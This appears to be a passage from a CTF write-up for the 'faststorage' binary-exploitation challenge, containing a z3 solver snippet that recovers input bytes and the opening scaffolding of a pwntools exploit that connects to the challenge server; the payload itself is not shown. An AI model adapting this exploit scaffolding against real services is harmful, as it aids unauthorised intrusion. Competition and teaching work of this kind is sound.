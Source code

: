 ```python
if(tmp>=32):
    s.add(i%62==61)
    tmp-=32
else:
    s.add((i+2)%62==0)

e=((b<<8)+a)^((d<<8)+c)^((h<<8)+g)
s.add((((e >> 10) ^((e ^ (e >> 5))&0xFF))&0x1f)==tmp)
f=0
for w in range(8):
    f=f+((a>>w)&0x1)
    f=f+((b>>w)&0x1)
    f=f+((c>>w)&0x1)
    f=f+((d>>w)&0x1)
    f=f+((g>>w)&0x1)
    f=f+((h>>w)&0x1)

s.add((f&0x1f)==tmp)

if(s.check()):
    m=s.model()
    print(m[a]+m[b]+m[c]+m[d]+m[g]+m[h])
```

Exp:

```python
from pwn import *
import os
local=0
pc='./faststorage'
pc='/tmp/pwn/faststorage_debug'
remote_addr=['faststorage.hackable.software',1337]
aslr=False
#context.log_level=True
libc=ELF('./libc.so.6')

if local==1:
    p = process(pc,aslr=aslr,env={'LD_PRELOAD': './libc.so.6'})
    #p = process(pc,aslr=aslr)
    gdb.attach(p,'c')
else:
    p=remote(remote_addr[0],remote_addr[1])

ru = lambda x : p.recvuntil(x)
sn = lambda x : p.send(x)
rl = lambda   : p.recvline()
sl = lambda x : p.sendline(x) 
rv = lambda x : p.recv(x)
sa = lambda a,b : p.sendafter(a,b)
sla = lambda a,b : p.sendlineafter(a,b)

def lg(s,addr):
    print('\033[1;31;40m%20s-->0x%x\033[0m'%(s,addr))

def raddr(a=6):
    if(a==6):
        return u64(rv(a).ljust(8,'\x00'))
    else:
        return u64(rl().strip('\n').ljust(8,'\x00'))

def choice(idx):
    sla("> ",str(idx))

```